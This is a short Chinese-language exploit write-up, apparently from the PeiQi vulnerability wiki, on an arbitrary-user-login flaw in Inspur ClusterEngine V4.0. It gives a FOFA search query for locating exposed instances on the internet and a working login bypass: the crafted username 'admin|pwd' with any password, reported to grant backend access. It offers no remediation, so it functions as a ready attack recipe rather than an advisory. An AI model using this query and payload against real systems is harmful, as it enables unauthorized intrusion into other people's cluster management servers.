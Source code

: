 ```yaml
---
title: 浪潮ClusterEngineV4.0 任意用户登录漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - 浪潮
---
```


# 浪潮ClusterEngineV4.0 任意用户登录漏洞

## 漏洞描述

浪潮ClusterEngineV4.0 存在任意用户登录漏洞，构造恶意的用户名和密码即可获取后台权限

## 漏洞影响

> [!NOTE]
>
> 浪潮ClusterEngineV4.0

## FOFA

> [!NOTE]
>
> title="TSCEV4.0"

## 漏洞复现

登录页面如下

![](/img/20210924013613034098.png)

```
USER： admin|pwd
PASS:  任意
```

成功登陆后台

> [!NOTE]
>
> 部分功能是无法使用的

![](/img/20210924013613497063.png)
